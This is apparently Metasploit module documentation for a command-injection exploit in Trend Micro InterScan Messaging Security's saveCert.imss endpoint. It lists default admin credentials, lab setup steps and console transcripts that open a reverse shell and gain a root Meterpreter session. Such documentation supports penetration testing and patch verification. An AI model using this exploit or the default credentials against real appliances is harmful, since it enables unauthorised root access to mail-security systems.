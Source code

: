 ## Vulnerable Application

This module exploits a command injection vulnerability in the Trend Micro InterScan Messaging Security (Virtual Appliance) product. An authenticated user can execute a terminal command under the context of the web server user which is root. Besides, default installation of IMSVA comes with a default administrator credentials.

saveCert.imss endpoint takes several user inputs and performs blacklisting. After that it use them as argument of predefined operating system command without proper sanitation. However,due to improper blacklisting rule it's possible to inject arbitrary commands into it. InterScan Messaging Security prior to 9.1.-1600 affected by this issue.

**Vulnerable Application Installation Steps**

IMSVA is distrubed as an ISO image by Trend Micro.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Messaging Security (Virtual Appliance)" and click.
3. At the time of writing this documentation, you must see "IMSVA-9.1-1600-x86-64-r2.iso" next to Download button.
4. Click to the download button and complete installation of ISO.

If you don't see a affected version of IMSVA, you can try to download IMSVA-9.1-1600 directly from following URL.

[http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso](http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso)

**System requirements:**
- Virtualbox or VMware can be used. 
- 4 GB of memory at least.
- 120 GB of disk size at least.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/linux/http/trend_micro_imsva_exec 
msf exploit(trend_micro_imsva_exec) > set RHOST 12.0.0.140
RHOST => 12.0.0.140
msf exploit(trend_micro_imsva_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(trend_micro_imsva_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Attempting to login with admin:imsva
[+] Authenticated as admin:imsva
[*] Delivering payload...
[*] Sending stage (38622 bytes) to 12.0.0.140
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.140:60822) at 2017-01-18 11:29:36 +0300

meterpreter > getuid
Server username: root
meterpreter >
```

You must be getting ```no access``` error if the supplied username and password or default credentials are wrong.

```
msf exploit(trend_micro_imsva_exec) > back
msf > use exploit/linux/http/trend_micro_imsva_exec 
msf exploit(trend_micro_imsva_exec) > set RHOST 12.0.0.140
RHOST => 12.0.0.140
msf exploit(trend_micro_imsva_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(trend_micro_imsva_exec) > 
msf exploit(trend_micro_imsva_exec) > set USERNAME notvalid
USERNAME => notvalid
msf exploit(trend_micro_imsva_exec) > set PASSWORD notvalid123
PASSWORD => notvalid123
msf exploit(trend_micro_imsva_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Attempting to login with notvalid:notvalid123
[-] Exploit aborted due to failure: no-access: 12.0.0.140:8445 - Login with notvalid:notvalid123 failed...
[*] Exploit completed, but no session was created.
```